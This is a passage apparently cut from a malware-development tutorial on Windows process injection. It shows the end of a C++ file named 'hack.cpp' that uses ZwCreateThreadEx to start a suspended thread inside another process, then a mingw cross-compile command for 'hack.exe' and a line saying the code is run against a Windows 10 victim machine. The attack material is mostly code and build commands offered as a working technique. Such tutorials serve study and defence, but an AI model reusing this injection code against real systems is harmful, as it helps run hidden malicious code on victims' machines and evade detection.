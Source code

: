```cpp
  sh = NULL;

  // create new thread
  myZwCreateThreadEx(&th, 0x1FFFFF, NULL, pi.hProcess,
  rb, NULL, CREATE_SUSPENDED, 0, 0, 0, 0);
  printf("thread: %p.\n", th);
  ResumeThread(pi.hThread);
  myZwClose(pi.hThread);
  myZwClose(th);

  return 0;
}
```

### demo

Let's go to compile our example:    

```bash
x86_64-w64-mingw32-g++ hack.cpp -o hack.exe -mconsole \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ -static-libgcc \
-fpermissive
```

![injection 5](./images/35/2022-01-16_23-57.png){width="80%"}    

Then, see everything in action! In our case victim machine is Windows 10 x64:
